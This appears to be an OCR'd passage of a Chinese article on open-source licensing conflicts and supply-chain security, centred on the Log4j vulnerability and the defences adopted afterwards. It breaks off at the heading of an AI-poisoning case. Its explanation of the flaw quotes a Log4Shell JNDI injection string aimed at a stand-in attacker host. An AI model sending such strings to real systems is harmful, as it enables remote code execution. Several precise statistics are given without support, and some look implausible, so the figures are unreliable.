 ### 伦理与安全挑战  

#### **许可证碎片化危机**  

**风险与治理**  

**合规难题**：2024 年 GitHub 调查显示，63% 的企业因许可证冲突导致项目延期（如 MIT 协议代码被错误用于 GPLv3 项目）。  
**标准化尝试**：  

- **OSI 与 GB/T 44272 互认**：推动国际主流许可证（如 Apache 2.0）与国家标准的兼容性验证。  
- **工具辅助**：AtomGit 平台集成许可证检测模块，自动识别代码库中的协议冲突（如 GPLv3 与 Apache 2.0 的不可兼容性）。  

---

#### **供应链安全警示**  

**Log4j 漏洞与 AI 攻击：开源生态安全治理的范式重构**  
**事件影响：全球性供应链危机**  
2021 年 12 月披露的 Log4j 远程代码执行漏洞（CVE-2021-44228）成为开源安全史上的里程碑事件。
**技术影响**：  

- **漏洞原理**：Log4j 通过`JNDI`协议调用外部资源，攻击者可构造恶意字符串触发任意代码执行（如`${jndi:ldap://attacker.com/a}`）。  
- **传播范围**：Apache Log4j 被全球 97% 的 Java 应用使用（Sonatype 2022 年数据），直接影响 AWS、Microsoft Azure 等云平台。  

**经济损失**：  

- **修复成本**：全球 1.2 万家企业投入超 50 亿美元进行系统升级（Gartner 2022 年报告），仅中国金融行业修复成本达 5 亿美元。  
- **业务中断**：Netflix、Twitter 等企业因漏洞修复延迟导致服务中断数小时。  

**应对策略：从被动响应到主动防御**  
**1. 代码审计机制升级**  
**核心代码冻结**：  

- **OpenEuler 实践**：对关键组件（如 glibc、kernel）实行“双签制度”，要求代码变更需经华为工程师与社区开发者双重审核（2023 年数据，审核通过率下降 15%，但漏洞引入率降低 80%）。  
- **自动化工具**：集成 SAST（静态应用安全测试）工具（如 SonarQube），强制扫描高风险函数（如`eval()`、`system()`）。

**社区共建模式**：  

- **贡献者分级管理**：根据历史贡献质量分配权限（如“银牌贡献者”可直接提交非核心模块代码）。  
- **漏洞悬赏计划**：OpenEuler 设立 500 万美元基金，奖励发现高危漏洞的白帽黑客（2024 年发现漏洞数增长 40%）。  

**2. 漏洞响应体系重构**  
**CNCF 开源安全应急响应联盟**：  

- **24 小时响应机制**：要求项目在漏洞披露后 24 小时内发布补丁（如 Kubernetes 在 Log4j 漏洞后 18 小时完成修复）。  
- **跨项目协作**：建立“漏洞传播图谱”，自动追踪依赖链（如 Log4j 漏洞影响的 1200 个下游项目自动标记）。

**企业级防护**：  

- **WAF 规则更新**：云厂商（如阿里云）在漏洞披露后 2 小时内更新 Web 应用防火墙规则（拦截恶意请求成功率 99.9%）。  
- **容器镜像加固**：Docker Hub 推出“安全镜像标签”，标记已修复漏洞的版本（2023 年安全镜像使用率提升 65%）。  

---

**2025 年 AI 攻击案例：生成式 AI 驱动的供应链投毒**  

**攻击手法：深度伪造与代码注入**：
